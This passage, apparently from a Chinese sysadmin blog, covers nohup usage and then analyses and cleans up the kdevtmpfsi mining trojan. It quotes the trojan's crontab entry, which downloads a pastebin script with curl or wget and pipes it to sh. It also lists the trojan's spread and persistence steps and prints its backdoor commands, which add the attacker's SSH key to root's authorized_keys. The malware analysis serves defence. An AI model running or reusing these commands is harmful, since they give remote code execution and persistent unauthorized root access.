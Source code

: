 为了不让一些执行信息输出到前台（控制台），我们还会加上刚才提到的>/dev/null 2>&1命令来丢弃所有的输出：

```
# nohup java -jar xxxx.jar >/dev/null 2>&1 &
```

总而言之，在工作中用到最多的就是`nohup command >/dev/null 2>&1 &`命令

## 挖矿木马病毒清理

问题： 无意在使用`top`命令的时候发现一个异常进程: `kdevtmpfsi`,使用`ps -aux | grep kdevtmpfsi`,发现对应的执行文件路径是: `/tmp/kdevtmpfsi`. 然后尝试`kill -9`杀死进程后，再`rm -rf /tmp/kdevtmpfsi`还是会死而复生。

### 木马解析

1. 木马解析： <https://xz.aliyun.com/t/4386>, <https://my.oschina.net/u/4437985/blog/3168526> (推荐)

一般在定时任务（`crontab -l`）中存在异常脚本:

```
[root@mdw ~]# crontab -l
*/15 * * * * （curl -fsSL https://pastebin.com/raw/xmxHzu5P||wget -q -O- https://pastebin.com/raw/xmxHzu5P)|sh
```

1). 攻击者通过网络进入第一台被感染的机器(redis未认证漏洞、ssh密码泄露登录等)。
2). 第一台感染的机器会读取known_hosts文件，遍历ssh登录，如果是做了免密登录认证，则将直接进行横向传播。
3). 修改/etc/cron.d/root文件，增加定时任务
4). kill掉同类挖矿进程
5). kill掉高好资源的其他进程
6). 下载执行主恶意程序kerberods
7). 拉起khugepageds挖矿进程
8). 为文件添加chattr锁定
9). 修改IPTABLES
10). 清除日志
11). 关闭SELinux
12). 还有个后门，创建/root/.ssh/authorized_keys，添加病毒作者自己的公钥，保证其可以使用SSH登录到服务器，具体代码如下

```
chmod 700 /root/.ssh/
echo >> /root/.ssh/authorized_keys
chmod 600 root/.ssh/authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9WKiJ7yQ6HcafmwzDMv1RKxPdJI/oeXUWDNW1MrWiQNvKeSeSSdZ6NaYVqfSJgXUSgiQbktTo8Fhv43R9FWDvVhSrwPoFBz9SAfgO06jc0M2kGVNS9J2sLJdUB9u1KxY5IOzqG4QTgZ6LP2UUWLG7TGMpkbK7z6G8HAZx7u3l5+Vc82dKtI0zb/ohYSBb7pK/2QFeVa22L+4IDrEXmlv3mOvyH5DwCh3HcHjtDPrAhFqGVyFZBsRZbQVlrPfsxXH2bOLc1PMrK1oG8dyk8gY8m4iZfr9ZDGxs4gAqdWtBQNIN8cvz4SI+Jv9fvayMH7f+Kl2yXiHN5oD9BVTkdIWX root@u17" >> /root/.ssh/authorized_keys


```

### 木马分析

1. 继续查看对应的定时任务目录`nano /etc/crontab`,发现没有对应的病毒形式的定时任务。继续查看用户目录下的定时任务: `/var/spool/cron/`也没有发现非法的定时任务。

